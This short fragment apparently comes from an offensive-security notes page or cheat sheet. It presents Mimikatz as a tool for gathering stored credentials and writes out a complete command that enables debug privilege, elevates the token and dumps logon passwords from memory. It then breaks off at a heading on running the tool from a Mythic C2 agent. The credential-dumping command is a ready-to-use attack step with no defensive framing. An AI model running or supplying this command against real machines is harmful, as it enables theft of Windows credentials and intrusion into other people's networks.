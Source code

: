 Used to gather stored credentials

Running from binary context
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

Running from mythic c2 contact